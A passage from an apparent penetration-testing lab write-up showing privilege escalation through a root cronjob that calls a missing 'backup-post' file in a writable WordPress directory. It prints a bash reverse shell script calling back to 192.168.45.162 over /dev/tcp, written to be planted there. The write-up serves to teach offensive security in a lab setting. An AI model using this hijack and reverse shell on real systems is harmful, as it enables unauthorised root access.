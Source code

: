 <figure><img src="../../../.gitbook/assets/image (2) (1) (11).png" alt=""><figcaption></figcaption></figure>

> I reset the box here, so the IP addresses are different.

From here, we can easily get a reverse shell.

<figure><img src="../../../.gitbook/assets/image (10) (1) (1) (5).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Cronjob --> Binary Hijack

I ran `pspy64` to enumerate the processes that were being run, and it found this:

```
2023/07/17 13:03:02 CMD: UID=0    PID=7830   | /bin/bash /usr/sbin/automysqlbackup 
2023/07/17 13:03:02 CMD: UID=0    PID=7829   | /bin/bash /usr/sbin/automysqlbackup 
2023/07/17 13:03:02 CMD: UID=0    PID=7831   | mail -s MySQL Backup Log for maria - 2023-07-17_13h03m root
```

I tried running the `automysqlbackup`, but it resulted in loads of errors. Within the errors, I saw this:

```
$ /usr/sbin/automysqlbackup
<TRUNCATED>
/usr/sbin/automysqlbackup: line 656: /var/www/html/wordpress/backup_scripts/backup-post: No such file or directory
<TRUNCATED>
```

Seems that `backup-post` is a binary run that is not present within a directory that we have write access to. We can easily create a reverse shell like this:

```bash
#!/bin/bash

bash -i >& /dev/tcp/192.168.45.162/80 0>&1
```
